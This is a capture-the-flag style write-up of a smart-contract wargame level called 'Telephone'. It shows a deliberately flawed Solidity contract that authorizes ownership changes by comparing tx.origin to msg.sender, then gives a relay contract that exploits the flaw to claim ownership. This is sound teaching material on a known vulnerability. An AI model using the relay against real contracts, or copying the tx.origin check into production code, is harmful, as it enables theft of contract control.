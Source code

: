 ***Telephone***

![Alt text](phone.jpg)

Claim ownership of the contract below to complete this level.

```
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

Looks like all we have to do to set the owner is make sure the `tx.origin` is anything other than the `msg.sender.`

Did you know that smart contracts have the ability to call other contracts? You could ask contract A to interact with a function in contract B. To contract B, the `msg.sender` is contract A, but the `tx.origin` would be the original entity that kicked off the transaction.

In a simple call chain A->B->C->D, inside D `msg.sender` will be C, and `tx.origin` will be A.

Let's build that!

All we have to do is write a contract that relays the message to a target contract. Import the example that's deployed, add a parameter to set a new owner, and deploy it.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'target.sol';

contract test {
    function run(address _target, address _newOwner) public{
        Telephone(_target).changeOwner(_newOwner);
    }
}
```
![Alt text](instance.jpg)

Add the instance of your deployed Telephone contract as a parameter and you'll be ready to pass on the new owner.

![Alt text](deployed%20contracts.jpg)

Easy enough!

![Alt text](complete.jpg)
